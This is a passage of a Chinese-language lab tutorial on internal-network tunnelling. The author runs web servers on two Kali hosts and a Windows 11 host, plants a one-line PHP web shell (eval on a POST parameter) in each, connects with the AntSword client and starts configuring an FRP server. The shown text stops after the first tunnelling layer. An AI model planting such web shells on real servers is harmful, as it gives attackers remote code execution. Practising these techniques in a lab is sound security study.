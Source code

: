 为了，测试，在两台kali上起apache的web服务，win11用phpstudy起web服务

```
<?php
phpinfo();
eval($_POST[1]);
```

都放上一个如上代码的1.php

蚁剑先连上10.211.55.7的马

# FRP

## 第一层

首先配置frp服务端，起在公网上，这边我就起在我的本机上，选择对应版本，我是MacOs

先来看看frps.ini，默认配置如下，可以添加一个控制台

![image-20230322195838205](images/2.png)

添加控制台修改frps如下，默认监听端口是7000，控制台在7500，这里我7000被占用了，换成了7100

![image-20230322200300154](images/3.png)
